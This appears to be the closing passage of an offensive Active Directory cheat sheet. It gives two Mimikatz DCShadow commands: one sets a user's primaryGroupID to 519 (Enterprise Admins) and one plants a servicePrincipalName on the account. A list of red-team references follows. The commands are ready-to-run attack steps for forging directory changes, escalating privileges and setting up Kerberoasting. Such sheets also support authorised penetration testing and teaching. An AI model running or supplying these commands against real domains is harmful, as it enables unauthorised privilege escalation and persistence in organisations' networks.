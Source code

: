 #### Modify primaryGroupID

```bash
lsadump::dcshadow /object:user1 /attribute:primaryGroupID /value:519
```

#### Set a SPN on an user

```bash
lsadump::dcshadow /object:user1 /attribute:servicePrincipalName /value:"Legitime/User1"
```

## References

* [The Hacker Recipes](https://www.thehacker.recipes)
* [Pentester Academy](https://www.pentesteracademy.com)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
* [Cube0x0](https://cube0x0.github.io)
* [HackTricks](https://book.hacktricks.xyz/welcome/readme)
* [Haax](https://cheatsheet.haax.fr/)
* [Red Teaming Experiments](https://www.ired.team)
* [SpecterOps](https://posts.specterops.io)
* [BloodHound](https://bloodhound.readthedocs.io/en/latest/index.html)
* [Dirk-jan Mollema](https://dirkjanm.io)
* [Snovvcrash](https://ppn.snovvcrash.rocks)
* [Exploit.ph](https://exploit.ph/)
* [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [Pentestlab.blog](https://pentestlab.blog/)
* [Hack The Box](https://www.hackthebox.com/)